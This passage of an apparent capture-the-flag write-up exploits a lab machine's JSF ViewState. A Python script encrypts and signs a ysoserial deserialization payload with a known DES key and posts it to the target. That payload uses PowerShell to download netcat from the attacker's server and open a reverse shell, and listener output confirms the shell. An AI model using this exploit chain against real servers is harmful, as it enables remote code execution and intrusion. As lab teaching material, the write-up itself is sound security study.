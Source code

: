 
So lets make a short python script to encrypt with DES and sign a ysoserial payload, and then post it to userSubscribe.faces. Something like this...
```python
import pyDes
import base64
import hmac
import requests
from hashlib import sha1

url = 'http://10.10.10.130:8080/userSubscribe.faces'

def getPayload():
    payload = open('payload.bin', 'rb').read()
    return payload.strip()

def crypt():
    # first encrypt the payload
    payload = getPayload()
    secret = bytes('SnNGOTg3Ni0=').decode('base64')
    des = pyDes.des(secret, pyDes.ECB, padmode=pyDes.PAD_PKCS5)
    crypted = des.encrypt(payload)

    # next create the HMAC
    hash_val = (hmac.new(secret, bytes(crypted), sha1).digest())
    payload = crypted + hash_val
    payload_b64 = base64.b64encode(payload)

    print "Locating payload..."
    print "Encoded payload: "+payload_b64
    print "Sending evil request..."
    encoded = {'javax.faces.ViewState': payload_b64 }
    requests.post(url, data=encoded)

crypt()
```
The getPayload() function just opens our payload.bin file, then in crypt() first we base64 decode the secret and encrypt the payload with DES. Then our HMAC object is created and added to the end of it and the whole thing is base64'd, printed to stdout, and sent to the target url. We can use the script on a ysoserial payload that downloads netcat from our webserver, then runs it back and sends us a shell.
```bash
$ java -jar /opt/ysoserial/ysoserial-master-55f1e7c35c-1.jar CommonsCollections5 'cmd /c powershell Invoke-WebRequest "http://10.10.14.20:8000/nc64.exe" -OutFile "C:\Windows\Temp\nc64.exe;C:\Windows\Temp\nc64.exe -vn 10.10.14.20 443 -e cmd.exe "' > payload.bin
$ python encode.py
Locating payload...
Encoded payload: o4swGdxTZXw1mKtPxFkj...---snip---
Sending evil request...
```

```cmd
$ nc -nlvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.130.
Ncat: Connection from 10.10.10.130:49685.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\tomcat\apache-tomcat-8.5.37\bin>whoami     
whoami                                 
arkham\alfred           
                                                  
```

[arkham]: PS C:\Users\Batman\Documents> whoami